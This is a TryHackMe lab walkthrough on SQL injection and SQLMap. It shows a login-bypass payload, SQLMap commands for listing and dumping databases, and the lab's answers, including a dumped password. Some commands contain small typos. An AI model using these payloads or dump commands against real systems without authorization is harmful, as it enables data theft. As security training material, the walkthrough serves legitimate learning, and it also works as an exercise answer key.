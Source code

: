 # SQLMap: the Basics Tryhackme Walkthrough 

Room URL: https://tryhackme.com/room/sqlmapthebasics


---
## Task 1: Introduction

### What is SQL injection (SQLi)?
SQL injection (SQLi) is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. This can allow an attacker to view data that they are not normally able to retrieve. This might include data that belongs to other users, or any other data that the application can access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behavior.

In some situations, an attacker can escalate a SQL injection attack to compromise the underlying server or other back-end infrastructure. It can also enable them to perform denial-of-service attacks.

Source: [portswigger](https://portswigger.net/web-security/sql-injection)

**Question: Which language builds the interaction between a website and its database?**

**Answer:** sql

---

## Task 2: SQL Injection Vulnerability

Imagine you’re logging into a website, trying to get through a login page with your trusty username "John" and secret password "Un@detectable444." Typically, the website sends a query to the database, which looks a bit like this:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'Un@detectable444';
```

The database checks if you exist and whether that password matches. If yes, you’re in! But hackers have a trick up their sleeve called **SQL Injection** that lets them twist this query into something that works for them.

Let’s say this login page is sloppy with security and doesn’t clean up user input properly. An attacker could type something like:

**Username:** John  
**Password:** abc' OR 1=1;-- -

Now the query becomes:

```sql
SELECT * FROM users WHERE username = 'John' AND password = 'abc' OR 1=1;-- -';
```

The password part now reads:

- Password = 'abc' (no match)
- OR 1=1 (which is always true!)

So the database just shrugs and lets them in. The `--` tells the database to ignore the rest, bypassing the real password check.


**Question: Which boolean operator checks if at least one side of the operator is true for the condition to be true?**

**Answer:** or

**Question: Is 1=1 in an SQL query always true? (YEA/NAY)**

**Answer:** Yea

---

## Task 3: Automated SQL Injection Tool

Feeling like hacking databases is too much typing? Enter **SQLMap**, the database burglar’s best friend.

Forget trying to break in manually — SQLMap does the hard work for you. It’s like a tour guide for database heists, handling everything from picking the lock to finding the treasure.

**SQLMap** is a command-line tool that turns you into a database wizard, as long as you have permission (seriously). Start by launching it in your Linux terminal, and if you’re feeling overwhelmed, try `--wizard` mode. Think of it as SQLMap holding your hand.

Want to test a URL for weakness? Just feed it a target URL, like:

```
sqlmap -u http://sqlmaptesting.thm/search?cat=1
```

SQLMap will dig in. If it finds a weak point, it’ll reveal the details: error-based, time-based, UNION query, etc.

Once you’ve confirmed a vulnerable URL:

- Use `--dbs` to list the databases
- Use `-D` to pick one
- Use `--tables` to browse inside
- Use `--dump` to get all the records


**Question: Which flag in the SQLMap tool is used to extract all the databases available?**

**Answer:** --dbs

**Question: What would be the full command of SQLMap for extracting all tables from the “members” database?**  
**(Vulnerable URL: http://sqlmaptesting.thm/search/cat=1)**

**Answer:**
```
sqlmap -u http://sqlmaptesting.thm/search/cat=1 -D members --tables
```

---
# Task 4: Practical Exercise

### Extract the Full GET Request URL:
To view GET parameters, right-click on the page and select “Inspect.”

Go to the Network tab, enter dummy credentials (e.g., email=test and password=test), and hit login.

Locate the GET request; it will look like this:

`http://MACHINE_IP/ai/includes/user_login?email=test&password=test`

Copy this URL, as it includes the GET parameters.

### SQLMap Command Setup:
In the terminal, use the SQLMap tool with this command (substitute MACHINE_IP with the IP address displayed in your AttackBox):

`sqlmap -u 'http://MACHINE_IP/ai/includes/user_login?email=test&password=test' - level=5`

Wrapping the URL in single quotes (‘ ‘) avoids issues with special characters.

### Answering SQLMap Prompts:
When SQLMap asks questions, respond as follows:

- Skip test payloads for other DBMSes: Enter `y`.
- Include all MySQL-specific tests: Enter `y`.
- Try random integer values for ‘–union-char’: Enter `y`.
- Keep testing other parameters if email is vulnerable: Enter `n`.

### SQLMap Results:
After running, SQLMap should identify SQL injection vulnerabilities in the email parameter.

**Question 1: How many databases are available in this web application?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” --dbs -level=5`

**Answer:** 6

**Question 2 : What is the name of the table available in the “ai” database?**

`sqlmap -u “http://<target-ip>/ai/includes/user_login?email=test&password=test” -D ai --tables`

**Answer:** Users

**Question 3 : What is the password of the email test@chatai.com?**

from the ai database dump the Users table

`sqlmap -u "http://<target-ip>/ai/includes/user_login?email=test&password=test" -D ai -T user --dump -level=5`

![image](https://github.com/user-attachments/assets/ab97d5ea-0c98-4ef1-b9af-2e8e53040d85)

**Answer:** 12345678
